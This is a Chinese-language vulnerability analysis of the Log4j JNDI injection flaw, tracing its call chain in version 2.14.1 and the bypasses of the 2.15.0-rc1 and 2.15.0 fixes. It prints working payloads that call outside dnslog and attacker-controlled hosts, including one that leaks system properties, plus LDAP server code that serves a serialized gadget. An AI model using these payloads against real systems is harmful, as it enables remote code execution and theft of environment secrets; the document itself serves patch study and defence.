# log4j rce

影响版本：

2.0-beta9 到 2.14.1

修复版本：

2.15.0-rc2

payload：

`${jndi:ldap://9zx4xu.dnslog.cn:1389/Exp}`

分析：

先来看原来没修的

## 2.14.1

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1:1234/Exploit}");
    }
}
```

这里的调用链比较长，如下

```java
toSerializable:342, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2017, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:42, log4j
```

断点打到PatternLayout#toSerializable

这里的event参数即为封装的日志事件，其中message参数包含我们的exploit。然后会调用this.formatters中的format方法



format方法中会调用this.converter的format方法


formatters如下，主要是每个formatter的converter属性不同，这里主要看MessagePatternConverter，因为是处理message即恶意参数的



MessagePatternConverter#format

这里从event取出message后会拼接上workingBuilder，然后判断其中是否有连续的`${`字符，如果有则取出进行替换(其实就是解析${}中的内容)



经过几个调用

```java
substitute:930, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
```

到StrSubstitutor#substitute

这里内容比较多，就不贴图了，主要作用就是递归解析${}的内容，解析的函数在418行this.resolveVariable，此时varName为

`jndi:ldap://localhost:1234/Exploit`

```java
    private int substitute(final LogEvent event, final StringBuilder buf, final int offset, final int length, List<String> priorVariables) {
        ...
        String varValue = this.resolveVariable(event, varName, buf, startPos, pos);
    }
```

这里会调用resolver#lookup，并且支持的lookup调用在strLookupMap中，这里可以看到jndi



先继续跟入Interpolator#lookup

这里会根据var的前四位来从strLookupMap中取对应的lookup实现，这里因为是`jndi:ldap://localhost:1234/Exploit`所以取出JndiLookup，然后在下面调用JndiLookup#lookup方法


最终在JndiManager#lookup中完成jndi注入


## 2.15.0-rc1

2.15.0-rc1版本主要是对PatternLayout#toSerializable中的this.formatters做了改动

可以看到MessagePatternConverter变成了MessagePatternConverter$SimpleMessagePatternConverter


看一下他的format方法，这里并没有对${}进行提取解析，只是将它拼接到error的日志格式后了


而真正解析的地方被放到了

MessagePatternConverter$LookupMessagePatternConverter中，但是之前formatters中根本就没有这个Converter，所以其实算是修复了



除非手动构造一个，但是感觉这样有点鸡肋...不知道还有没有其他方法，这里用了4train师傅的构造

```java
public static void main(String[] args) {
        final Configuration config = new DefaultConfigurationBuilder().build(true);
        final MessagePatternConverter converter =
                MessagePatternConverter.newInstance(config, new String[] {"lookups"});
        final Message msg = new ParameterizedMessage("${jndi:ldap://ip:1234/rce}");
        final LogEvent event = Log4jLogEvent.newBuilder()
                .setLoggerName("MyLogger")
                .setLevel(Level.DEBUG)
                .setMessage(msg).build();
        final StringBuilder sb = new StringBuilder();
        converter.format(event, sb);
        System.out.println(sb);
    }
```

不过这里rc1中JndiManager#lookup中有规定运行的地址、类、以及协议，可以看到这里只允许ldap请求本地服务，基本上寄了



但是官方后来又发布了2.15.0-rc2

其中一个补丁是在JndiManager#lookup中增加了捕获到异常后的返回处理


还有一处是官方测试时添加的，那么可以猜测使用一些特殊字符放入jndi的uri中另程序进入异常，并且rc1中不会进行异常处理，以此绕过



所以加个在ClassName前加个空格就好了，本地利用需要tomcat的包(支持BeanFactory、ELProcessor)或者其他gadget



## 信息泄露

今天看到其他师傅发的利用，意识到能用lookup信息泄露，比如

`${jndi:ldap://${sys:java.version}.7i3934.dnslog.cn:1099/}`



还是这几个lookup实现



比如sys

SystemPropertiesLookup#lookup，就能从System.getProperties()中取值


EnvironmentLookup#lookup是从System.getenv()取值


JavaLookup#lookup局限这几个



浅蓝师傅还发现了如果使用了ResourceBundleLookup#lookup，可以读取properties配置文件



不过需要在spring中手动取出原生的日志记录...

```xml
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
</dependency>
```


## 2.15.0 更新

今天看[4rain师傅发的文章](https://xz.aliyun.com/t/10689)，又学到一波

2.16.0的补丁是直接删了LookupMessagePatternConverter，所以即使配置lookups也已经不存在调用jndilookup了


而2.17.0补丁在lookup这里改了if里的部分代码，只允许java协议的lookup



问题出在2.15.0的`uri.getHost()`，利用方式文章里写的很清楚，比如

```java
URI uri3 = new URI("ldap://127.0.0.1#.4ra1n.love:1389/badClassName");
System.out.println(uri3.getHost());
//得到 127.0.0.1绕过host检测
```

但是在底层得到的host仍为`127.0.0.1#.4ra1n.love`，配合泛域名解析就可以变成攻击者ip

但是这个`#`貌似只有在MacOS上才不会报错..

此时已经绕过了host限制，下面的限制满足一个即可绕过

1. javaSerializedData不为空且javaClassName在白名单中
2. javaReferenceAddress和javaFactory都为空


第二个限制不允许远程加载对象和远程工厂，那就用第一个，结合ldap绕高版本jndi的方式(需要本地gadget)

https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html

在ldap server里的sendResult加上：

```java
protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ){
            e.addAttribute("javaClassName", "java.lang.Byte");
            try {
                e.addAttribute("javaSerializedData",payload); //payload为本地利用链的gadget
            } catch (ParseException  e1) {
                e1.printStackTrace();
            }
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
}
```

然后需要配置日志输出格式为lookups即可

log4j2.xml

```xml
<configuration status="OFF" monitorInterval="30">
    <appenders>
        <console name="CONSOLE-APPENDER" target="SYSTEM_OUT">
            <PatternLayout pattern="%m{lookups}%n"/>
        </console>
    </appenders>

    <loggers>
        <root level="error">
            <appender-ref ref="CONSOLE-APPENDER"/>
        </root>
    </loggers>
</configuration>
```


参考：

https://xz.aliyun.com/t/10649

https://github.com/apache/logging-log4j2/compare/log4j-2.15.0-rc1...log4j-2.15.0-rc2

https://mp.weixin.qq.com/s/vAE89A5wKrc-YnvTr0qaNg
